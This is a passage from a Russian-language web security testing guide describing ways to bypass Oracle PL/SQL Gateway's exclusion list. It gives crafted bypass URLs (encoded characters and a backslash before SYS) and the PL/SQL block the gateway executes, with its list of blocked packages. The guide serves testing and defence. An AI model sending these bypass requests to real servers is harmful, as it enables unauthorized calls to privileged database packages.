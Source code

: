 `http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC`

### Обход списка исключений — способ 5

Некоторые версии PL/SQL Gateway позволяют обойти список исключений с помощью обратной косой черты — `0x5C`:

`http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC`

### Обход списка исключений — способ 6

Это самый сложный метод обхода списка исключений, который был недавно исправлен. Если мы сделаем такой запрос

`http://www.example.com/pls/dad/foo.bar?xyz=123`

то сервер приложений будет выполнять на сервере базы данных следующее:

```sql
declare
 rc__ number;
 start_time__ binary_integer;
 simple_list__ owa_util.vc_arr;
 complex_list__ owa_util.vc_arr;
begin
 start_time__ := dbms_utility.get_time;
 owa.init_cgi_env(:n__,:nm__,:v__);
 htp.HTBUF_LEN := 255;
 null;
 null;
 simple_list__(1) := 'sys.%';
 simple_list__(2) := 'dbms\_%';
 simple_list__(3) := 'utl\_%';
 simple_list__(4) := 'owa\_%';
 simple_list__(5) := 'owa.%';
 simple_list__(6) := 'htp.%';
 simple_list__(7) := 'htf.%';
 if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
  null;
  orasso.wpg_session.init();
  foo.bar(XYZ=>:XYZ);
  if (wpg_docload.is_file_download) then
   rc__ := 1;
   wpg_docload.get_download_file(:doc_info);
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
  else
   rc__ := 0;
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
   owa.get_page(:data__,:ndata__);
  end if;
 end if;
 :rc__ := rc__;
 :db_proc_time__ := dbms_utility.get_time—start_time__;
end;
```
